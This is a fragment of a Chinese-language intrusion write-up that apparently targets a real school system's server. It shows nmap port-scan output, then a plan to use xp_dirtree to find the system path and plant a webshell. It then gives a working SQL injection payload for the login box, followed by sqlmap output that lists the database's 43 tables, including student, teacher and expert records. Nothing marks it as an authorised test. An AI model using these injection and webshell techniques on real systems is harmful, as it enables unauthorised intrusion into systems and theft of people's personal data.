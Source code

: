 拿出nmap扫描服务器端口

```

Host is up (0.066s latency).
Not shown: 988 filtered ports
PORT      STATE  SERVICE
80/tcp    open   http
554/tcp   open   rtsp
1723/tcp  open   pptp
1755/tcp  open   wms
2005/tcp  closed deslogin
2006/tcp  closed invokator
2007/tcp  closed dectalk
2008/tcp  closed conf
2009/tcp  closed news
2010/tcp  closed search
2013/tcp  closed raid-am
20000/tcp closed dnp

```

没有开1433端口，站库分离，不然可以尝试远程登录数据库

***

想尝试利用xp_dirtree获取系统路径直接写入webshell

在登录框注入`admin');create table dirs(paths varchar(1000))-- `

之后sqlmap查询表项，看见成功创建

```
Database: sdmsjc18
[43 tables]
+--------------------+
| T_Achievement      |
| T_BS_Article       |
| T_BS_CalendarLog   |
| T_BS_ConfigInfo    |
| T_BS_Group         |
| T_BS_GroupLimit    |
| T_BS_User          |
| T_Department       |
| T_ExpertGraded     |
| T_ExpertGradedtemp |
| T_Speciality       |
| T_Student          |
| T_Subject          |
| T_SubjectB         |
| T_Superexcellence  |
| T_Teacher          |
| T_TeacherPost      |
| T_bsAuditingGroup  |
| T_bsCompete        |
| T_bsCompeteB       |
| T_bsExamArrange    |
| T_bsExamine        |
| T_bsExamineB       |
| T_bsExamineR       |
| T_bsExpert         |
| T_bsFinalReport    |
| T_bsMain           |
| T_bsMainB          |
| T_bsPgrade         |
| T_bsProcess        |
| T_bsReplyGroup     |
```